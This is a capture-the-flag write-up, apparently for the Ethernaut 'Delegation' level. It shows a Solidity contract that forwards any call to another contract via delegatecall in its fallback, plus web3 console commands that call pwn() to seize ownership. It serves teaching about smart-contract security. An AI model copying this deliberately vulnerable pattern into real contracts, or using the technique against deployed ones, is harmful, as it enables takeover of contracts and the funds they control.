

# Challenge 6



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Challenge
---
> The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

  - Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
  - Fallback methods
  - Method ids


1. `delegatecall` - `delegatecall` is similar to `call`, is a low level function in `Solidity`. `delegate` meas entrust/represent, so what does `delegatecall`entrust?

When user `A` `delegatecall` contract `C` via contract `B`, the executed functions are from contract `C`, the `execution context` is in contract `B`: `msg.sender` is user `A`'s address, and if state variables are changed due to function call, the affected state variables are in contract `B`.

2. Method Ids - This is derived as the first 4 bytes of the Keccak hash of the ASCII form of the signature functionName() iif any parameter then functionName(ValueType) and if more saprate the by commma.

Solution
---

1. open the terminal and get the `pwn()` for `msg.data`.
```js
await web3.utils.sha3("pwn()");
// you will see this 0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab
```

and now copy this hash and 
```js
await contract.sendTransaction({data:"0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"})
```

after  that check the contract owner()
```js
await contract.owner()
```
You will see your EOA (Externally Owned Account) address and submit the instance your challenge will be cleared. 🎉